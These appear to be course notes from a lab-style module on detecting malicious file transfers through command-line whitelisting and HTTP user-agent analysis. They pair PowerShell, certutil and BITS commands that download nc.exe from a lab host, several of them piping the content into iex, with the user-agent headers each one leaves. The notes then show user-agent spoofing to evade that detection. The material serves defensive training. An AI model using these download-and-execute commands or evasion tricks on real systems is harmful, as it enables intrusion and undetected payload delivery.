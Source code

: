 # Bypassing Detection

CLI detection based on blacklisting is straightforward to bypass, 
even using simple case obfuscation. 

However, although the process of whitelisting all command lines in a particular environment is 
initally time-consuming, it's very robust and allows for quick detection and alerting on any 
unusual command lines.

Most client-server protocols require the client and server to negotiate how content will be 
delivered before exchanging information. 

This is common with the HTTP protocol. There is a need for interoperability amongst different 
web servers and web browser types to ensure that users have the same experience no matter 
their browser. HTTP clients are most readily recognized by their user agent string, which the 
server uses to identify which HTTP client is connecting to it, 
for example, Firefox, Chrome, etc...

user agents are not only used to identify web browsers, but anything acting as an HTTP client 
and conneting to a web server via HTTP can have a user agent string 
(ie, cURL, a custom Python script, or common tools such as Nmap or SQLmap).

Organizations can take some steps to identify potential user agent strings by first building a 
list of known legitimate user agent strings, user agents used by default operating system 
processes, common user agents used by update services such as Windows Update, 
and antivirus updates, etc.

These can be fed into an SIEM tool used for threat hunting to filter out legitimate traffic and 
focus on anomalies that may indicate suspicious behaviour. 

Any suspicious-looking user agent strings can then be further investigated to determine whether 
they were used to perform malicious actions. https://useragentstring.com/index.php is a handy 
tool for identifying common user agent strings. A list of user agent strings is availabe also 
@https://useragentstring.com/pages/useragentstring.php

Malicious file transfers can also be detected by their user agents. 
The following user agents/headers were observed from common HTTP transfer techniques.

## Invoke-WebRequest - Client

PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"


## Invoke-WebRequest - Server

GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0

## WinHttpRequest - Client

PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText

## WinHttpRequest - Server

GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)

## Msxml2 - Client

PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText

## Msxml2 - Server

GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)

## Certutil - Client

PS C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
PS C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe

## Certutil - Server

GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0

## BITS - Client

PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r

## BITS - Server

HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8


This section just scratches the surface on detecting malicious file transfers. It would be an excellent start for any organization to create a whitelist of allowed binaries or a blacklist of binaries known to be used for malicious purposes. 

Furthermore, hunting for anomalous user agent strings can be an excellent way to catch an attack in progress. We will cover threat hunting and detection techniques in-depth in later modules.

# Evasion

- Change the user agent
```bash
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | 

Select-Object Name,@{
	label="User Agent";
	Expression={
		[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)
	}} | fl
```

Invoke-WebRequest to download nc.exe using a Chrome User Agent:

```bash
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"